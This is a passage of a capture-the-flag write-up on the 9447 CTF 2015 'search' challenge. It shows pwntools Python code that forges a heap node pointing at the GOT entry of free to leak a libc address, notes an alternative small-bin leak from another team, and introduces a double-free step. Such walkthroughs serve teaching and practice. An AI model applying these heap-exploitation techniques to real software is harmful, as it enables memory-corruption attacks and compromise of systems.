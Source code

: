 ``` python
    p.sendline('y')

    # make our fake node
    node = ''
    node += p64(0x400E90) # word pointer "Enter"
    node += p64(5) # word length
    node += p64(0x602028) # sentence pointer (GOT address of free)
    node += p64(64) # length of sentence
    node += p64(0x00000000) # next pointer is null
    assert len(node) == 40

    # this sentence gets allocated on top of the previous sentence's node.
    # we can thus control the sentence pointer of that node and leak memory.
    index_sentence(node)

    # this simply receives all input from the binary and discards it, which
    # makes parsing out the leaked address easier below.
    p.clean()

    # leak the libc address
    search('Enter')
    p.recvuntil('Found 64: ')
    leak = u64(p.recvline()[:8])
    p.sendline('n') # deleting it isn't necessary
    return leak
```

One important note is that the choice of GOT address (`0x602028` in this case) is important. I originally used a different GOT address, whose corresponding function just happened to have a least significant byte of zero. This means that the corresponding `sentence` is an empty string. This is entirely dependent on your libc.

## Alternate libc leak

After I solved this problem, I was looking up other solutions, and I saw a useful technique used by [PPP's solution](https://github.com/pwning/public-writeup/blob/master/9447ctf2015/pwn230-search/pwn.py#L74).

The fastbins are different from small and large bins in that only the forward pointers are used for fastbins. For the other bins, the first index in each list is a libc address (probably pointing to the address of the index in the array, but I'm not completely sure). So if we allocate a small bin sized sentence instead (simply by allocating a chunk larger than 128 bytes), free the sentence, and then print the sentence (by matching on a word with an empty string), we'd print the small bin, including the libc address.

While I'll definitely be using this trick in the future, the rest of this post assumes my original method of leaking a libc address.

## Exploiting a double free

So we have a stack leak and a libc leak, now we just need to be able to overwrite a return address on the stack. Let's start by figuring out how to get a double free, and then we can figure out how to exploit it later.
